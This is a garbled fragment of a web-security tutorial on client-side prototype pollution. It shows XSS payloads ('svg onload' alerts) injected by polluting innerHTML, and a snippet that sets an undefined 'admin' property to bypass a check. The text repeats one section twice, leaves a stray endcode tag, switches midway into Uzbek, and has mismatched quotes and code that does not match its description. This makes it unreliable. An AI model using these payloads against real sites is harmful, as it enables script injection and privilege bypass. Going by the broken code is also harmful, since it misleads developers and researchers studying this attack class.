 When generating a HTML element via JS it's possible to **overwrite** the **`innerHTML`** attribute to make it write **arbitrary HTML code.** [Idea and example from this writeup](https://blog.huli.tw/2022/04/25/en/intigriti-0422-xss-challenge-author-writeup/).

{% code overflow="wrap" %}
```javascript
// Create element
devSettings["root"] = document.createElement('main')

// Pollute innerHTML
settings[root][innerHTML]=<"svg onload=alert(1)>"

// Pollute innerHTML of the ownerProperty to avoid overwrites of innerHTML killing the payload
settings[root][ownerDocument][body][innerHTML]="<svg onload=alert(document.domain)>"
```
{% endcode %}

## Examples

### Basic Example

A prototype pollution occurs due to a flaw in the application that allows overwriting properties on `Object.prototype`. This means that since most objects derive their properties from `Object.prototype`

The easies example is to add a value to an **undefiner attribute of an object** that is going to be checked, like:

{% endcode %}

## Examples

### Basic Example

A prototype pollution occurs due to a flaw in the application that allows overwriting properties on `Object.prototype`. This means that since most objects derive their properties from `Object.prototype`

The easies example is to add a value to an **undefiner attribute of an object** that is going to be checked, like:
```javascript
if (user.admin) {
```
**`admin`** **attribut** **undefined** **bo'lsa**, **PP** **qo'llanishidan foydalanib uni True ga sozlash mumkin**. **Quyidagi kabi bir narsa bilan:**

```javascript
Object.prototype.__defineSetter__('admin', function(value) {
    if (this === globalThis) {
        Object.defineProperty(globalThis, 'admin', {
            value: value,
            enumerable: false,
            writable: false,
            configurable: false
        });
    }
});
```
